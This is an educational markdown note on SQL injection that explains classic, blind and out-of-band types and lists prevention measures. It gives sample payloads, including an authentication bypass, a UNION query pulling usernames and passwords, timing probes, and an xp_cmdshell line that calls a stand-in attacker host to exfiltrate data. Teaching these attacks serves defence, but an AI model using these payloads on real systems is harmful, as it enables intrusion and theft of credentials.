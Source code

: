 # SQL Injection

SQL Injection(SQLi) is a code injection that exploits a vulnerability in an application by manipulating SQL queries. It allows attackers to interfere with the queries that an application makes to its database.

When user inputs is not sanitized properly, the attackers can inject malicious SQL code into input fields such as username, password, etc and gain unauthorised access or manipulate the database.

![SQL Injection](images/sqli.png)

## Rise in the SQL Injection

1. Bypass authentication
2. Read sensitive data such as usernames and passwords
3. Modify or delete data
4. Execute admin functionality

## Types of SQL Injection

1. Classic / In-band SQLi
The simplest and most common type. The attacker uses the same communication channel to both launch the attack and gather the results.

**Types in Classic SQLi:**
a. Error-based SQLi
Relies on database error messages to extract data.
Example: ' OR 1=1 --

Error reveals info like:
I.Database type
II.Table names
III.Column names

b. Union-based SQLi
Uses the UNION SQL operator to combine results of two or more SELECT statements.
Allows extracting data from other tables.
Example: ' UNION SELECT username, password FROM users --

2. **Blind SQLi**
when the application doesn't display errors or DB responses, but we can observe the behaviour cahnge such as delay, response content, redirection

**Types in Blind SQLi**
a. Boolean-based (content-based) Blind SQLi
Based on true/false conditions.
Example:
' AND 1=1 --  → returns true  ->page loads normally  
' AND 1=2 --  → returns false ->different behavior

b. Time-based Blind SQLi
Uses SQL functions like SLEEP() or WAITFOR DELAY to infer if a condition is true.
Useful when there’s no visible response difference.

Example: ' IF(1=1, SLEEP(5), 0) --

3. Out-of-band SQLi
Used when neither in-band nor blind methods work. This type depends on the DB server's ability to make DNS or HTTP requests to external systems.
Example: '; EXEC xp_cmdshell('nslookup attacker.com') --
It can exfiltrate data to attacker-controlled servers.

## Real world examples

1. Login Page Bypass
2. Dump data using Union

## Prevention

1. Use Prepared Statements / Parameterized Queries
example in PHP (PDO), Python, Java, etc.
2. Use ORM Libraries (like Sequelize, SQLAlchemy, Hibernate)
3. Input Validation and Sanitization
4. Least Privilege for DB Accounts
5. Web Application Firewall (WAF)
6. Regular Security Testing / Penetration Testing
